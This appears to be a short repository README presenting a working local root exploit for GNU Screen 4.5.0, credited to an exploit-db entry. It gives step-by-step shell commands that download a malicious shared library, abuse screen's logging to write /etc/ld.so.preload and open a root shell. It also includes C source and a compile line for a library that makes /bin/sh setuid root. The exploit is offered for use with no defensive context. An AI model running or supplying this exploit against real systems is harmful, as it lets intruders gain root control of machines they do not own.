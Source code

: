 # Priv Esc for Screen 4.5.0
Based on https://www.exploit-db.com/exploits/41154
Based on Screen2Root

Exploit Instructions:
```
cd /tmp
wget http://127.0.0.1/libhax.so    # Make sure libhax.so is in /tmp
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
libhax.c code (Compiled version available in repo)
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/bin/sh", 0, 0);
    chmod("/bin/sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
